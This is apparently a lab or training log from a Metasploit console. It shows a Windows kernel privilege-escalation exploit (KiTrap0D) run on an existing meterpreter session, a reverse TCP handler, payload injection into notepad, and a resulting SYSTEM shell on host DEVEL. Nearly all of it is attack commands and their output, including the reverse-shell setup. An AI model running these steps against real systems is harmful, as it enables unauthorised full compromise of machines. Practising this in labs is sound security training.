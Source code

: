 

msf5 exploit(windows/local/ms10_015_kitrap0d) > sessions

Active sessions
===============

  Id  Name  Type                     Information  Connection
  --  ----  ----                     -----------  ----------
  3         meterpreter x86/windows               x.x.x.x:4444 -> x.x.x.x:49161 (x.x.x.x)

msf5 exploit(windows/local/ms10_015_kitrap0d) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 3
session => 3
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
lhost => tun0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost 1234
lhost => 1234
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on x.x.x.x:1234 
msf5 exploit(windows/local/ms10_015_kitrap0d) > [*] Launching notepad to host the exploit...
[+] Process 3828 launched.
[*] Reflectively injecting the exploit DLL into 3828...
[*] Injecting exploit into 3828 ...
[*] Exploit injected. Injecting payload into 3828...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (180291 bytes) to x.x.x.x
[*] Meterpreter session 5 opened (x.x.x.x:1234 -> x.x.x.x:49158) at 2019-10-26 21:02:49 +0000

msf5 exploit(windows/local/ms10_015_kitrap0d) > sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  4         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL      x.x.x.x:4444 -> x.x.x.x:49157 (x.x.x.x)
  5         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ DEVEL  x.x.x.x:1234 -> x.x.x.x:49158 (x.x.x.x)



#Interact with meterpreter sessions
msf5 exploit(windows/local/ms10_015_kitrap0d) > sessions -i 5
[*] Starting interaction with 5...



meterpreter >


#Run Metasploit exploit against Blue Team (Victim)
msf5 exploit(windows/local/ms10_015_kitrap0d) > use exploit/windows/http/rejetto_hfs_exec

